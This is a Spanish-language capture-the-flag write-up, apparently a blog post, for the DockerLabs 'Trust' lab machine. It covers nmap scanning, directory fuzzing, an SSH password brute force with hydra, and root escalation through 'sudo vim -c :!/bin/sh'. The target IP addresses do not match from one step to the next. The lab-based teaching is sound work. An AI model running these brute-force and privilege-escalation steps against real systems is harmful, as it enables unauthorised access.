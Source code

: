 ```yaml
---
title: Trust
description: DockerLabs es una plataforma gratuita diseñada para practicar hacking ético al alcance de todo el mundo utilizando Docker. DockerLabs ofrece un entorno seguro y accesible para desplegar laboratorios vulnerables de la forma más eficiente y sencilla posible.
date: 2025-01-03
toc: true
pin: false
image:
 path: /assets/img/dockerlabs-writeup-trust/trust_logo.png
categories:
  - Docker Labs
tags:
  - linux
  - dockerlabs
  - ssh
  - http
  - tcp
  - fuzzing web
  - password attacks
  - sudo abuse
  - information gathering
  - web analysis
  - vulnerability exploitation
  - privilege escalation

---
```

## Information Gathering

El análisis inicial comienza con el comando ping para confirmar la accesibilidad de la máquina objetivo en la red.

```terminal
/home/kali/Documents/dockerlabs/trust:-$ ping -c 1 127.18.0.2
PING 127.18.0.2 (127.18.0.2) 56(84) bytes of data.
64 bytes from 127.18.0.2: icmp_seq=1 ttl=64 time=0.044 ms

--- 127.18.0.2 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 0.044/0.044/0.044/0.000 ms
```

Realizo un escaneo agresivo de puertos con nmap, lo que me permite identificar rápidamente todos los puertos abiertos. 

```terminal
/home/kali/Documents/dockerlabs/trust:-$ sudo nmap -p- --open -sS --min-rate 5000 -n -Pn -vvv -oG nmap1.2 127.18.0.2
Host: 127.18.0.2 ()     Status: Up
Host: 127.18.0.2 ()     Ports: 22/open/tcp//ssh///, 80/open/tcp//http///        Ignored State: closed (65533)
```

Profundizo en los puertos detectados, recopilando información detallada sobre los servicios y versiones en ejecución.

```terminal
/home/kali/Documents/dockerlabs/trust:-$ sudo nmap -sCV -p22,80 -vvv -oN nmap2 127.18.0.2
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 64 OpenSSH 9.2p1 Debian 2+deb12u2 (protocol 2.0)
| ssh-hostkey: 
|   256 19:a1:1a:42:fa:3a:9d:9a:0f:ea:91:7f:7e:db:a3:c7 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBHjaznpuQYsT/kxLXSVDFJGTtesV6UrUh5aNJhw+tAdr19MnZpuY/8e0gb+NXRebo5Dcv/DP1H+aLFHaS6+XCGw=
|   256 a6:fd:cf:45:a6:95:05:2c:58:10:73:8d:39:57:2b:ff (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIJW/dREGeklk/wsHXisOmbmVwP9zg7U8xS+OfHkxLF0Z
80/tcp open  http    syn-ack ttl 64 Apache httpd 2.4.57 ((Debian))
| http-methods: 
|_  Supported Methods: POST OPTIONS HEAD GET
|_http-server-header: Apache/2.4.57 (Debian)
|_http-title: Apache2 Debian Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
```terminal
/home/kali/Documents/dockerlabs/trust:-$ whatweb 127.18.0.2
http://127.18.0.2 [200 OK] Apache[2.4.57], Country[RESERVED][ZZ], HTTPServer[Debian Linux][Apache/2.4.57 (Debian)], IP[127.18.0.2], Title[Apache2 Debian Default Page: It works]
```

---
## Web Analysis

La página web inicial parece ser una plantilla predeterminada de Apache.

![](assets/img/dockerlabs-writeup-trust/trust1.png)

Durante el proceso de fuzzing, encuentro una pagina PHP accesible, ```secret.php```.

```terminal
/home/kali/Documents/dockerlabs/trust:-$ dirb http://127.18.0.2 -X .html,.conf,.txt,.php,.md
---- Scanning URL: http://127.18.0.2/ ----
+ http://127.18.0.2/index.html (CODE:200|SIZE:10701)
+ http://127.18.0.2/secret.php (CODE:200|SIZE:927)
```

![](assets/img/dockerlabs-writeup-trust/trust2.png)

---
## Vulnerability Exploitation

En este punto, decido realizar un ataque de fuerza bruta al servicio SSH utilizando ```mario``` como nombre de usuario.

```terminal
/home/kali/Documents/dockerlabs/trust:-$ sudo hydra -l mario -P /usr/share/wordlists/rockyou.txt ssh://172.18.0.2 -t 10 -I
[22][ssh] host: 172.17.0.2   login: mario   password: chocolate
```

![](assets/img/dockerlabs-writeup-trust/trust3.png)

El ataque tiene éxito y obtengo las credenciales SSH.

```terminal
/home/kali/Documents/dockerlabs/trust:-$ ssh mario@127.18.0.2
mario@127.18.0.2's password: chocolate

mario@kali:~$ whoami
mario
```

---
## Privilege Escalation

```terminal
mario@kali:~$ cat /etc/passwd | grep /bash$
root:x:0:0:root:/root:/bin/bash
mario:x:1000:1000:mario,,,:/home/mario:/bin/bash
```

El usuario ```mario``` puede ejecutar el comando ```/usr/bin/vim``` como cualquier usuario.

```terminal
mario@kali:~$ sudo -l
[sudo] password for mario: chocolate

Matching Defaults entries for mario on kali:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User mario may run the following commands on kali:
    (ALL) /usr/bin/vim
```

Consultando [GTFOBins](https://gtfobins.github.io/gtfobins/vim/#sudo), encuentro que vim puede ser utilizado para ejecutar una shell con privilegios elevados cuando se invoca con sudo.

![](assets/img/dockerlabs-writeup-trust/trust4.png)

```terminal
mario@kali:~$ sudo /usr/bin/vim -c ':!/bin/sh'
# id
uid=0(root) gid=0(root) groups=0(root)
```

